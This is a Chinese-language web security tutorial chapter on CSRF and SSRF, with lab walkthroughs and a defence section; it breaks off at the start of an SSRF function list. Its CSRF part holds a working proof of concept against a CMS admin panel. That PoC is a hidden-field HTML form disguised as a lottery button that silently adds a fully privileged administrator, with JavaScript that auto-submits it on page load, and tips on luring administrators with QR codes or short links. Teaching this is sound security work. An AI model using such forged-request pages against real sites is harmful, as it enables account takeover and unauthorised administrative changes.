# 10.CSRF与SSRF

## 1. CSRF

### 1.1 简介

CSRF（Cross-site request forgery）跨站请求伪造，由于目标站无token/referer限制，导致攻击者可以用户的身份完成操作达到各种目的。根据HTTP请求方式，CSRF利用方式可分为两种。

CSRF是跨站请求伪造，不攻击网站服务器，而是冒充用户在站内的正常操作。通常由于服务端没有对请求头做严格过滤引起的。CSRF会造成密码重置，用户伪造等问题，可能引发严重后果。

绝大多数网站是通过Cookie等方式辨识用户身份，再予以授权的。所以要伪造用户的正常操作，最好的方法是通过XSS或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。CSRF攻击会令用户在不知情的情况下攻击自己已经登录的系统。



从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1. 登录受信任网站 A，并在本地生成 Cookie 。
2. 在不登出 A的情况下，访问危险网站 B。

CSRF攻击的目的是滥用基本的Web功能。如果该网站可以使服务器上的状态变化，如改变受害者的电子邮件地址或密码，或购买的东西，强迫受害人检索数据等等。CSRF攻击会修改目标状态。在这一过程中，受害者会代替攻击者执行这些攻击，攻击者中不会收到响应，受害者会代替攻击者执行这些攻击。

在跨站请求伪造(CSRF)攻击中，攻击者经由用户的浏览器注入网络请求来破坏用户与网站的会话的完整性。浏览器的安全策略允许网站将HTTP请求发送到任何网络地址。此策略允许控制浏览器呈现的内容的攻击者使用此用户控制下的其他资源。

可以这么理解 CSRF 攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。

CSRF 能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账造成的问题包括：个人隐私泄露以及财产安全。

需要对页面参数做修改时，可以使用burpsuit生成csrf poc，从而进行poc测试，测试完成之后一定要验证，浏览器执行了我们生成的poc测试，令数据产生变化。

CSRF和XSS的区别：XSS获取cookie，CSRF伪造跨站请求完成指令。CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。

- 可能存在的位置

- 对目标网站增删改的地方进行标记，并观察其逻辑，判断请求是否可以被伪造；

- 比如修改管理员账号，并不需要验证旧密码，导致请求容易被伪造
- 比如对于敏感信息的修改并没有使用安全的 token 验证，导致请求容易被伪造

- 确认凭证的有效期（这个问题会提高 CSRF 被利用的概率）

- 虽然退出或者关闭了浏览器，但是 cookie 仍然有效，或者 session 并没有及时过期，导致 CSRF 攻击变得简单

### 1.2 实操

#### 1.2.1 靶场

在这里，以 lucy/123456 账号为例，进行登录。登录之后，可以看到lucy的个人信息



点击修改个人信息进入修改界面，然后进行抓包



得到下面的GET请求

```plain
http://d19.s.iproute.cn/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=12345678922&add=usa&email=lucy%40pikachu.com&submit=submit
```

修改一下请求，然后使用同一个浏览器提交，就可以触发信息的更改

```plain
http://d19.s.iproute.cn/vul/csrf/csrfget/csrf_get_edit.php?sex=girl&phonenum=6666&add=usa&email=lucy%40pikachu.com&submit=submit
```



可以将这个网址生成二维码，或者生成短网址来诱导管理员访问

#### 1.2.2 实战

网站地址`http://d12.s.iproute.cn/`

在网站后台管理员管理处添加管理员并且抓包



在提交的时候可以抓包到如下内容



下面是post提交的部分

```plain
POST /admin/admin/save.php?action=add&lang=cn&anyid=47 HTTP/1.1
Host: d12.s.iproute.cn
Content-Length: 1214
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://d12.s.iproute.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d12.s.iproute.cn/admin/admin/add.php?lang=cn&anyid=47
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: upgraderemind=1; appsynchronous=1; PHPSESSID=8k85bi6vlkpus90kml2fcqo473; conav=7; coul=47
Connection: close

useid=test&pass1=test&pass2=test&name=&sex=0&tel=&mobile=6666&email=111%40test.com&qq=&msn=&taobao=&admin_introduction=&admin_group=3&langok=metinfo&langok_cn=cn&langok_en=en&admin_op0=metinfo&admin_op1=add&admin_op2=editor&admin_op3=del&admin_pop=yes&admin_pop1001=1001&admin_pop1002=1002&admin_pop1003=1003&admin_pop1004=1004&admin_pop1005=1005&admin_pop1006=1006&admin_pop1101=1101&admin_pop1102=1102&admin_pop1103=1103&admin_pop1104=1104&admin_pop1105=1105&admin_pop1106=1106&admin_pop1201=1201&admin_pop1202=1202&admin_pop1203=1203&admin_pop1204=1204&admin_pop1301=1301&admin_pop1302=1302&admin_pop1303=1303&admin_pop1304=1304&admin_pop1305=1305&admin_pop1=1&admin_pop2=2&admin_pop3=3&admin_pop25=25&admin_pop31=31&admin_pop32=32&admin_pop33=33&admin_pop36=36&admin_pop42=42&admin_pop43=43&admin_pop49=49&admin_pop44=44&admin_pop50=50&admin_pop45=45&admin_pop46=46&admin_pop47=47&admin_pop9999=9999&admin_pop1401=1401&admin_pop1402=1402&admin_pop1403=1403&admin_pop1404=1404&admin_pop1405=1405&admin_pop1406=1406&admin_pop1505=1505&admin_pop1502=1502&admin_pop1503=1503&admin_pop1504=1504&admin_pop1501=1501&admin_pop1601=1601&admin_pop1604=1604&admin_pop1602=1602&admin_pop1603=1603&submit=%E4%BF%9D%E5%AD%98
```

这种的利用方式就会比较麻烦，因为是使用的POST方式提交的，可以考虑构造一个假的网页诱导管理员访问

首先生成html文件，此处可以使用chatgpt帮助我们快速生成input页面

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <form action="http://d12.s.iproute.cn/admin/admin/save.php?action=add&lang=cn&anyid=47" method="post">
        <input type="text" name="useid" value="test" hidden>
        <input type="password" name="pass1" value="test" hidden>
        <input type="password" name="pass2" value="test" hidden>
        <input type="text" name="name" value="" hidden>
        <input type="radio" name="sex" value="0" hidden>
        <input type="text" name="tel" value="" hidden>
        <input type="text" name="mobile" value="6666" hidden>
        <input type="email" name="email" value="111@test.com" hidden>
        <input type="text" name="qq" value="" hidden>
        <input type="text" name="msn" value="" hidden>
        <input type="text" name="taobao" value="" hidden>
        <textarea name="admin_introduction" hidden></textarea>
        <select name="admin_group" hidden>
            <option value="3"></option>
        </select>
        <input type="checkbox" name="langok" value="metinfo" hidden>
        <input type="checkbox" name="langok_cn" value="cn" hidden>
        <input type="checkbox" name="langok_en" value="en" hidden>
        <input type="checkbox" name="admin_op[]" value="metinfo" checked hidden>
        <input type="checkbox" name="admin_op[]" value="add" hidden>
        <input type="checkbox" name="admin_op[]" value="editor" hidden>
        <input type="checkbox" name="admin_op[]" value="del" hidden>
        <input type="checkbox" name="admin_pop" value="yes" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1001" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1002" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1003" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1004" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1005" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1006" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1101" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1102" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1103" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1104" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1105" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1106" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1201" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1202" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1203" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1204" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1301" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1302" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1303" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1304" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1305" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="2" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="3" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="25" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="31" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="32" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="33" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="36" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="42" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="43" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="49" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="44" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="50" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="45" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="46" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="47" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="9999" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1401" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1402" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1403" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1404" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1405" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1406" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1505" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1502" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1503" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1504" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1501" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1601" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1604" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1602" checked hidden>
        <input type="checkbox" name="admin_pop[]" value="1603" checked hidden>
        <input type="submit" value="点我开始抽奖">
    </form>
</body>

</html>
```

使用管理员登陆过的浏览器打开此网页



当误点击了链接之后，就会出现如下界面



管理员被成功添加

当然也可以使用javascript，当管理员访问此页面的时候，自动触发提交请求，这样就可以把诱导的网址做成二维码来让管理员扫码或者是点开不做任何操作都能够触发

```javascript
window.onload = function() {
  document.getElementById("myForm").submit();
};

# 在给submit添加了id="myForm"之后，在加上这段js代码，就可以触发自动提交
```

### 1.3 防御

- 增加Token验证

CSRF的主要问题是敏感操作的链接容易被伪造。

Token是如何防止CSRF的：每次请求，都增加一个随机码（需要够随机，不容易伪造），后台每次对这个随机码进行验证，每次刷新界面或者重新开启新的请求就能够刷新Token，这样就能基本上防御住了CSRF

- 会话管理

不要再客户端保存敏感信息

退出浏览器或者关闭及时清理会话机制

设置会话超时，比如10分钟内没有操作就自动退出

- 安全管理

在一些敏感操作的时候要对身份进行二次认证，比如修改账号时需要校验旧密码

数据提交的时候使用POST不使用GET

使用http头中的referer来限制界面

- 使用验证码

在登录或其他重要操作的时候使用验证码校验，防止爆破破解

## 2. SSRF

### 2.1 简介

SSRF(Server-Side Request Forgery，服务器端请求伪造) 是一种由攻击者构造请求，由服务端发起请求的一个安全漏洞，漏洞属于信息泄露的一种。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统，因为服务器请求天然的可以穿越防火墙。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作正确的过滤和限制。

一般情况下，SSRF的攻击目标大多是网站的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而与外网隔离的内部系统），只要当前服务器有向其他服务器发送请求的地方都可能存在SSRF漏洞。

一句话总结就是：**利用一个可以发起网络请求的服务当作跳板来攻击内部其他服务**



### 2.2 前置知识

#### 2.2.1 相关函数

##### 2.2.1.1 file_get_contents

file_get_contents()函数是PHP中一个用于读取文件内容的函数，它可以从一个文件中读取内容并返回该文件的内容字符串。

以下是file_get_contents()函数的语法：

```plain
string file_get_contents(string $filename, bool $use_include_path = false,resource $context = null, int $offset = 0, int $maxlen = null)
```

参数说明：

```plain
$filename ：要读取的文件的名称，可以是本地文件或远程文件的 URL 。
$use_include_path ：可选参数，默认为 false 。如果设置为 true ，则会在 include_path 中查找文件。
$context ：可选参数，通常不需要使用。可以使用 stream_context_create() 创建的上下文资源来控制
file_get_contents() 的行为。
$offset ：可选参数，默认为 0。从文件开始读取的字节数偏移量。
$maxlen ：可选参数，默认为 null 。要读取的最大字节数。
```

示例：

```php
// 从本地文件中读取内容
$file_contents = file_get_contents("./demo.txt");
// 从远程文件中读取内容
$url_contents = file_get_contents('http://example.com/');
```

在这个例子中，file_get_contents()函数从名为example.txt的本地文件中读取了内容，并将其保存在`$file_contents`变量中。它还从名为 http://example.com/ 的远程文件中读取了内容，并将其保存在`$url_contents`变量中。

利用点：可以从远程文件读取内容，**相当于可以对内部的地址发起攻击的访问请求**

##### 2.2.1.2 fsockopen

fsockopen()函数是PHP中一个用于创建网络套接字连接的函数，可以用于连接到远程服务器并与其通信。它允许PHP脚本像一个网络客户端一样与远程服务器进行交互，例如发送和接收数据。

以下是fsockopen()函数的语法：

```plain
resource fsockopen(string $hostname, int $port = -1, int &$errno = null, string &$errstr = null, float $timeout = null)
```

参数说明：

```plain
$hostname ：要连接的主机名或 IP 地址。
$port ：可选参数，默认为 -1 。要连接的端口号。如果未指定端口，则使用默认端口。
$errno ：可选参数，默认为 null 。如果连接失败，则返回错误代码。
$errstr ：可选参数，默认为 null 。如果连接失败，则返回错误消息。
$timeout ：可选参数，默认为 null 。连接超时时间，以秒为单位。如果在指定的时间内无法建立连接，则函
数返回 false 。
```

示例：

```php
<?php
    $socket = fsockopen('www.baidu.com', 80, $errno, $errstr, 30);
    // 与www.baidu.com:80建立连接
    if ($socket) {
    // 连接成功
    $request = "GET / HTTP/1.1\r\n";
    $request .= "Host: www.baidu.com\r\n";
    $request .= "Connection: Close\r\n\r\n";
    // $request此时构造了一个http的请求头，想要请求www.baidu.com的/路径内容
    fwrite($socket, $request);
    // 将构造好的http请求头发送给$socket建立的连接
    while (!feof($socket)) {
      // 当$socket拿到的回复没有取完
        $response .= fgets($socket, 1024);
      // 每次读取1024字节，拼接到$response变量上
    }
    fclose($socket);
    echo $response;
    } else {
    // 连接失败
    echo "Error $errno: $errstr";
    }
?>
```

注意，此时编码是错误的，因为响应头的内容原本是给浏览器去解析的，但是我们直接接收回来，并且将全部的东西全部以字符串的类型赋值给了$response了。

所以下面可以看到响应头部和html内容都显示出来了，而且浏览器默认是GBK的解码，中文是乱码。

在这个例子中，fsockopen()函数连接到example.com的默认HTTP端口（80）。然后，它发送一个HTTP GET请求，并使用fwrite()写入套接字。接下来，使用fgets()读取从服务器返回的响应，直到收到EOF。最后，使用fclose()关闭套接字，并将响应输出到屏幕上。

基于这种原理，可以做出web代理应用



可以看到页面是google但是域名确实代理地址



##### 2.2.1.3 curl_exec

